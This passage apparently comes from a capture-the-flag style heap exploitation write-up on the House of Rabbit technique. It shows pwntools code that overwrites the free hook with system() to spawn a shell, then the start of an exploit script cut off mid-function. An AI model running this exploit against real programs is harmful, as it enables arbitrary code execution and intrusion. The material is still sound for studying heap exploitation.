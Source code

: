 ```python

# =-=-=- OVERWRITE FREE HOOK -=-=-=

# The next request is serviced by the fake chunk.
# Request a large chunk to bridge the gap between the fake chunk and the free hook.
# Write the string "/bin/sh" into this chunk for use later as the argument to system().
binsh = malloc(distance, b"/bin/sh\0")

# The next request is serviced by the fake chunk again and overlaps the free hook.
# Use it to overwrite the free hook with the address of system().
malloc(0x18, pack(0) + pack(libc.sym.system))

# Free the chunk with "/bin/sh" in the 1st qword of its user data.
# This triggers a call to system("/bin/sh").
free(binsh)

# =============================================================================

io.interactive()
```


## Heap Feng Shui

### shell.py

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_rabbit_nofast', checksec=False)

#libc = ELF('', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+187

b *main+298

b *main+396
b *main+463

b *main+575
"""

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)


def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
```